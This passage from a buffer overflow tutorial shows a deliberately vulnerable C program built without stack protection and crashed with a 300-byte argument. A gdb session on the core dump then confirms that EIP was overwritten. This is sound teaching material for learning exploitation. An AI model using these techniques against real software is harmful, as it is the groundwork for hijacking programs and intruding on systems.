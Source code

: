 As you can see I forgot to build the code with the flags to stop gcc adding its stack protection; the application would have been terminated before we would have gained execution. But once I compiled it correctly...

We didn't get a core file because my default ulimits aren't high enough - so we better fix that...

    tim@blue:~/devel/buffer_overflows_101$ ulimit -c unlimited
    tim@blue:~/devel/buffer_overflows_101$ ./vuln `perl -e 'print "A" x 300'`
    before call
    argument was: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Segmentation fault (core dumped)
    tim@blue:~/devel/buffer_overflows_101$ ls
    core  vuln  vuln.c
    tim@blue:~/devel/buffer_overflows_101$

So lets see if we had control of EIP!

    tim@blue:~/devel/buffer_overflows_101$ gdb ./vuln ./core
    GNU gdb 6.6-debian
    Copyright (C) 2006 Free Software Foundation, Inc.
    GDB is free software, covered by the GNU General Public License, and you are
    welcome to change it and/or distribute copies of it under certain conditions.
    Type "show copying" to see the conditions.
    There is absolutely no warranty for GDB.  Type "show warranty" for details.
    This GDB was configured as "i486-linux-gnu"...
    Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
    
    warning: Can't read pathname for load map: Input/output error.
    Reading symbols from /lib/tls/i686/cmov/libc.so.6...done.
    Loaded symbols for /lib/tls/i686/cmov/libc.so.6
    Reading symbols from /lib/ld-linux.so.2...done.
    Loaded symbols for /lib/ld-linux.so.2
    Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
    Program terminated with signal 11, Segmentation fault.
    #0  0x41414141 in ?? ()
    (gdb) info reg
    eax            0x13b    315
    ecx            0x0      0
    edx            0xb7fd40d0       -1208139568
    ebx            0xb7fd2ff4       -1208143884
    esp            0xbffff960       0xbffff960
    ebp            0x41414141       0x41414141
    esi            0xb8000ce0       -1207956256
    edi            0x0      0
    eip            0x41414141       0x41414141
    eflags         0x210286 [ PF SF IF RF ID ]
    cs             0x73     115
    ss             0x7b     123
    ds             0x7b     123
    es             0x7b     123
    fs             0x0      0
    gs             0x33     51
    (gdb) quit
    tim@blue:~/devel/buffer_overflows_101$
